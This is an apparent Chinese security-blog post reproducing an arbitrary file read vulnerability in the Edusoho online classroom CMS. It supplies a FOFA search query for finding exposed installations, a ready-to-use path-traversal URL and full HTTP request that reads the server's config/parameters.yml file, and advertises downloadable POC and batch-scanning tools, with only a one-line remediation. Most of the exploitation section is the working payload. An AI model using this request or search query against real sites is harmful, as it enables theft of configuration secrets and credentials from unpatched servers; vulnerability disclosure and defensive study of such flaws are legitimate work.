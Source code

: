 #  Edusoho网络课堂cms存在任意文件读取漏洞 附POC软件   
南风徐来  南风漏洞复现文库   2024-02-24 23:08  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. Edusoho网络课堂cms简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
Edusoho网络课堂是面向个人、学校、培训机构及企业用户的友好、开源、高性价比的在线教育建站系统。  
## 2.漏洞描述  
  
Edusoho网络课堂是面向个人、学校、培训机构及企业用户的友好、开源、高性价比的在线教育建站系统。Edusoho网络课堂存在任意文件读取漏洞  
  
CVE编号:  
  
CNNVD编号:  
  
CNVD编号:  
## 3.影响版本  
  
Edusoho网络课堂cms  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8k233cOoYObZPYg3QeryF3HbM8T7jjfI8TibGTNiacJt8HOakX6cQnkUCA/640?wx_fmt=jpeg&from=appmsg "null")  
  
Edusoho网络课堂cms存在任意文件读取漏洞  
## 4.fofa查询语句  
  
title="EduSoho"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/export/classroom-course-statistics?fileNames[]=../../../config/parameters.yml  
  
漏洞数据包：  
```
GET /export/classroom-course-statistics?fileNames[]=../../../config/parameters.yml HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Connection: Keep-Alive
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=6hjpl1c6pvu8i0uln8cr6niv77
Upgrade-Insecure-Requests: 127
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8kuibIWbh5GEm5UeMe7PeVaLE2E1aFmJvY9bCU7XKwh3ZtAtpWOQvuNicQ/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现104 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8kU0WW6iaUmJnUmHiasqy0Y4brG6IbNfjBvdYeNTAgI8DrjKhVqfbk4qow/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8kq60gkSgeymaPHhFdWqvs37Qya4LqHFRmXSUt3cJL7FicTnmwZibQ6bRQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8kTncC0Wk7WxG6lRI8Ux2tOFVuqejwtVVyTx0h2OQkUAKfXh6nxcLhEA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8khKkEKfHxgRyZsvZUHm5yg3XibwUh3TzJSBwiaFATNh0KibO1bLnB7nBDQ/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8k46nB5CyVzVFe9ZMicPjYAhEKIOq0MQE1tuuwbTs1ibyv4ibl5tkmjnOFg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bgr1tXYKQiaBVQbPFhP7U8kEK7KWC0Jbr4oHXfxrtlnw57Ft3TichqGGroNvujoMvxvyq8Ym0aMXaA/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系厂商更新补丁：https://www.edusoho.com/  
## 8.往期回顾  
  
[WordPress的Bricks主题存在远程命令执行漏洞CVE-2024-25600 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485348&idx=1&sn=f8fa0576b9bb01bd97a1b95ad844e70d&chksm=974b8aa3a03c03b5ed99651d783895f6110a653c7af1181b6e18dea8da26327281fe1d7fd17e&scene=21#wechat_redirect)  
  
  
[用友U8-OA协同工作系统doUpload.jsp接口存在任意文件上传漏洞 附POC软件](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247485320&idx=1&sn=2958c0f06328b36f2bab443697ae07ef&chksm=974b8a8fa03c039946f61ec067ca5399568bbf38d914733eb26c6844ed8518eba757345acd14&scene=21#wechat_redirect)  
  
  
  
  
